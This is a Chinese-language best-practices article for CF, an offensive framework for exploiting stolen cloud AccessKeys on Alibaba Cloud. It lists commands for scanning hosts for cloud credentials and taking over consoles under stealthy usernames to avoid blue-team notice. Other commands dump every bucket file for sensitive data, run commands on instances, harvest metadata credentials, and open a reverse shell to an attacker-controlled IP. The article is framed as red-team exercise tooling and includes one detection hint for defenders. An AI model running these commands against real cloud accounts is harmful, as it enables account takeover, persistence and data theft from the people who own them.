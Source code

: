 ```yaml
---
title: CF 最佳实践
---
```

<center><h1>CF 云环境利用框架最佳实践</h1></center>

---

::: warning 注意

该文章适用于 CF v0.4.5 版本，该文中的命令在新版本中可能会有些变动，请以使用手册里的命令为准。

:::

考虑到在 CF 中有些功能可能知道的人不多，这里写篇文章介绍一下。

CF 是一个云环境利用工具，当获得 AccessKey 即云服务的访问凭证后，就可以使用 CF 进行 AK 的后利用，CF 项目地址：[github.com/teamssix/cf](https://github.com/teamssix/cf)

本文介绍的功能基于 0.4.5 版本，以下介绍统一以阿里云为例，关于其他的云是否适配相关命令需要以 CF 使用手册为准，CF 使用手册地址：[wiki.teamssix.com/cf](https://wiki.teamssix.com/cf)

### 配置功能

CF 中集成了扫描本地凭证的功能，使用这个功能可以快速收集本机上存储的云访问凭证，当拿下主机权限的时候，可以使用这个功能快速收集当前主机上的云凭证信息。

```bash
cf config scan
```

另外在 CF 中使用 cf config 命令配置完凭证后，如果想查看已配置的凭证，直接加上 ls 即可

```bash
cf config ls
```

如果凭证太长没有展示全，可以加上 -a 参数，查看完整的凭证内容

```bash
cf config ls -a
```

至于删除凭证加上 del 即可

```bash
cf config del
```

如果凭证中有个参数配置错了，可以加上 mf 去修改凭证中某一项的内容

```bash
cf config mf
```

若在同一个云下配置了多个凭证，想切换凭证那直接加上 sw 即可

```bash
cf config sw
```

### 接管控制台功能

接管控制台应该是 CF 使用最高频的一个功能了，当接管阿里云控制台的时候，直接使用 cf alibaba console 命令即可，这样会自动创建一个名为 crossfire 的用户，所以当蓝队发现自己的云平台用户中有一个叫 crossfire 的用户，那么可以大概率说明自己的云已经被人搞了。

对于红队而言，如果不想那么明显，可以使用 -u 指定用户名，这样也许不会被有经验的一眼看出来

```bash
cf alibaba console -u test
```

另外，这个自定义的用户名不能和平台上已有的用户名冲突，不然会接管失败

在接管后，如果想查看之前接管的信息，直接加上 ls 即可

```bash
cf alibaba console ls
```

在接管控制台之后，如果整个利用过程已经结束、项目也已经结束的时候，建议取消接管，使用 cancel 命令即可

```bash
cf alibaba console cancel
```

### 对象存储功能

有时碰到有的 AK 权限做的比较严格，必须要指定 Bucket Name 才能列出 Buckets 里的信息，这时可以使用 -b 参数指定 Bucket Name

```bash
cf alibaba oss ls -b bucket_name
```

CF 除了查看 Buckets 整体统计信息外，也可以列出 Objects 的信息，在控制台中默认会列出前一百条 Objects 信息，同时会把完整的结果导出在 result 文件夹中，因此想查看完整的结果可以直接打开 result 中的表格文件，比在控制台上看更方便

```bash
cf alibaba oss obj ls
```

CF 也可以直接下载 Buckets 里的所有文件，方便自己手工在本地去翻敏感信息，顺便提一句，从平时打攻防和身边朋友反馈来看，Buckets 里能翻出敏感信息的概率还是蛮大的，这个就是一个细活儿了，需要耐下心来，慢慢的翻

```bash
cf alibaba oss obj get
```

有时候做攻防到最后，就是看谁更细心、更有耐心，这时考验的就是一个人的品质而不是技术了。如果只是想着拿下权限就行了，接管了 Buckets 就行了，那最后的分数或许就没有其他更有耐心、更细心的队伍高。

### 弹性实例功能

在 CF 中内置了阿里云的一些私有区域，默认情况下是不调用的，如果想遍历所有的区域来搜索 ECS，可以加上 -a 参数，兴许会有意外的惊喜

```bash
cf alibaba ecs ls -a
```

CF 在 Windows 实例中执行命令的时候，默认会以 bat 脚本执行命令，如果想以 ps 脚本执行命令，可以加上 -s ps 参数

```bash
cf alibaba ecs exec -c \$PSVersionTable -s ps
```

如果想执行多行命令，使用 -f 指定一个文本文件，在文件中写入自己想执行的命令即可

```bash
cf alibaba ecs exec -f teamssix.txt
```

在发现当前凭证下有多台实例，需要证明拥有这些实例权限的时候，可以使用 -b 命令，批量为这些实例执行三要素，从而证明权限，方便报告的编写，让裁判无话可说

```bash
cf alibaba ecs exec -b
```

有的实例也许可以在元数据中获取到临时凭证，如果我们能获取到这个临时凭证信息，兴许可以进行下一步的内网横行，但一个个的在实例中去构造、访问元数据地址太过麻烦，现在只要使用 -m 参数，就可以一键发现这些实例的元数据中有没有临时凭证

```bash
cf alibaba ecs exec -m
```

只是使用 CF 去执行命令也许会觉着不太过瘾，因此在 CF 中集成了一键反弹 Shell 的功能，只需要在自己的服务器上开启 NC 监听，然后让 CF 去反弹 Shell 就行了

```bash
cf alibaba ecs exec --lhost 123.123.123.123 --lport 4444
```

### 其他

CF 在运行前，如果距离上一次运行超过 24 小时就会检查一下有无更新，在有新版本的时候，可以使用 upgrade 命令直接更新，无需再到 GitHub 中下载

```bash
cf upgrade
```

当对 CF 中某个命令不熟悉的时候，可以直接使用 help 命令查看帮助，CF 在所有的帮助信息中，都提供了中英双语展示，是不是很贴心，还没给 CF  Star 的师傅看到这里，还不给个 Star 嘛

```bash
cf help alibaba ecs exec
```

最后，在 CF 中，我还放置了些彩蛋，应该不难找，哈哈 ～


<Vssue />

<script>
export default {
    mounted () {
      this.$page.lastUpdated = "2023 年 6 月 4 日"
    }
  }
</script>
